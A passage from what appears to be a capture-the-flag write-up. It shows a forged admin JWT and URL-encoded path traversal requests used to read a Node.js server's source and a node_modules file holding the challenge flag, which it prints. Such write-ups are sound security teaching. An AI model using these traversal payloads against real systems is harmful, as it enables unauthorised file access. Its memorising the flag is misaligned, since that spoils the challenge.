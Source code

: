 ```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjRkbTFuIiwiaWF0IjoxNzM2NjAzNjQ5fQ.V7LUY3hRFZiGr2tAuug4zBPx6YPD2MrmvClj6AkEZJSL72W4u5BezvysmUWSmpdqz5aD-dfWaa4lYe6MAcMG7hhWyho-lP6ql-2SPLQhTg-CKgDM2MmbiBHpkZGFp1wdWA6enfaD7ccqdLeN-IwKX2chdsN9oxMhVqJNsqIN04H-nNQdKlaRuD75dDH4UFAYnLWHjP1QynDCd7ss7MJZzULXG9cGK-7JeDuAGdHJKypUts0a2mg463FAGMgL6JvoYEn65Tm8NhbeNgIY9d4ETEmjUMu_6LhMbd4EjoI-GsV45N054qW2Y2yFMxZzznMgjzhu-QXwdFJcEQLOK4qyDg
```
> You can also use https://jwt.io/

I thought I would be done with the challenge after visiting `/1337_v4u17`, but I was wrong; the challenge was not over...

I was now able to access a page where the "admin" kept their journal.
![](https://i.imgur.com/B7LZYcn.png)

When I clicked on the journal, I was sent to this page: `GET /1337_v4u17?file=vault%2Fjournal1.txt HTTP/1.1`.

This felt like a case of path traversal, so that's what I tried.

I was able to retrieve that path from before via path traversal (`file=vault/../../../../../../usr/src/app/5up3r_53cur3_50urc3_c0d3.js`):
```
GET /1337_v4u17?file=%76%61%75%6c%74%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%75%73%72%2f%73%72%63%2f%61%70%70%2f%35%75%70%33%72%5f%35%33%63%75%72%33%5f%35%30%75%72%63%33%5f%63%30%64%33%2e%6a%73 HTTP/1.1
```
> It looks like a mess because I used Burp's Decoder tool to encode the path traversal input into URL-encoded format.

This is what I found (shortened for convenience):
```js
...
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const SECRET_FLAG = require('secret-flag')
const app = express();
const PORT = process.env.PORT || 1337;
...
```

I knew I wanted to see what was in `require('secret-flag')`, so I started by searching for `secret-flag.js`, but nothing could be found.

Then I tried `/node_modules/secret-flag/index.js`, which I thought would be the next step to finding the flag, and I was correct.

`file=vault/../../../../../../usr/src/app/node_modules/secret-flag/index.js`
```
GET /1337_v4u17?file=%76%61%75%6c%74%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%75%73%72%2f%73%72%63%2f%61%70%70%2f%6e%6f%64%65%5f%6d%6f%64%75%6c%65%73%2f%73%65%63%72%65%74%2d%66%6c%61%67%2f%69%6e%64%65%78%2e%6a%73 HTTP/1.1
```

I found the flag:
```js
const SECRET_FLAG = "uoftctf{l337_15_p3rf3c7_f0r_fl465_4nd_3xp0n3n75}";
module.exports = SECRET_FLAG;
```
